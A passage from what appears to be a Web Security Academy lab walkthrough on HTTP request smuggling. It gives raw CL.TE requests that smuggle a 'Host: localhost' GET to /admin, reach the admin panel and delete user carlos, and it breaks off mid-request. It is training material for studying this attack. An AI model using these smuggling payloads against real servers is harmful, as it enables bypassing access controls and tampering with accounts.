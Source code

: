 3. Observe that the merged request to */admin* was rejected due to not using the header *Host: localhost*.
4. Issue the following request twice:

    ```
    POST / HTTP/1.1
    Host: ac471f221e11274dc0e81fd500690023.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 54
    Transfer-Encoding: chunked

    0

    GET /admin HTTP/1.1
    Host: localhost
    X-Ignore: X
    ```

5. Observe that the request was blocked due to the second request's Host header conflicting with the smuggled Host header in the first request.
6. Issue the following request twice so the second request's headers are appended to the smuggled request body instead:

    ```
    POST / HTTP/1.1
    Host: ac471f221e11274dc0e81fd500690023.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 116
    Transfer-Encoding: chunked

    0

    GET /admin HTTP/1.1
    Host: localhost
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 10

    x=
    ```

7. Observe that you can now access the admin panel.
8. Using the previous response as a reference, change the smuggled request URL to delete the user *carlos*:

    ```
    POST / HTTP/1.1
    Host: ac471f221e11274dc0e81fd500690023.web-security-academy.net
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 139
    Transfer-Encoding: chunked

    0

    GET /admin/delete?username=carlos HTTP/1.1
    Host: localhost
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 10
